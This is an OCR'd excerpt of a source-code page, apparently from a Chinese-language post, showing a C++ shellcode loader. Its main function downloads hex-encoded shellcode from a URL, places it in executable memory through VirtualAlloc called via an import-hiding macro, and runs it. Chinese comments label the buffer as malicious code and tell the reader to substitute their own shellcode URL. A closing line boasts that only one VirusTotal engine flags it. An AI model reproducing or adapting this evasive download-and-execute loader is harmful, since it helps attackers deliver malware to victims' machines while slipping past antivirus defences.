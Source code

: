 ```cpp
        // 将十六进制字符串转换为字节型数组
        hexStringToBytes(&hexBuffer[0], &buffer[0], bytesRead / 2);
    }

    // 关闭连接
    InternetCloseHandle(hConnect);
    InternetCloseHandle(hInternet);

    // 返回读取到的字节数（注意：字节数是原始十六进制字符串长度的一半）
    return bytesRead / 2;
}


int main() {
    // 把这个URL换成你的shellcode文件的URL
    LPSTR url = (char*)"http://127.0.0.1:8000/shellcode_hex.txt"; 
    
    //存放恶意代码的数组
    std::vector<unsigned char> buffer;

    //获取远程url的16进制内容,并将其存放至buffer数组
    size_t size = GetUrl_HexContent(url, buffer);

    // 在内存中分配一块可以执行的区域
    char* exec = (char*)LI_FN(VirtualAlloc)(nullptr, size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    // 将shellcode复制到该区域
    memcpy(exec, buffer.data(), size);

    // 执行该shellcode
    ((void(*) ())exec)();

    // 打印buffer的内容，只为演示，实际使用中可能并不需要这一步
    /*for (size_t i = 0; i < buffer.size(); i++) {
        printf("%02X ", buffer[i]);
        if ((i + 1) % 16 == 0) {
            printf("\n");
        }
    }*/

    return 0;
}
```

<br>

VirusTotal检测只有一个报毒
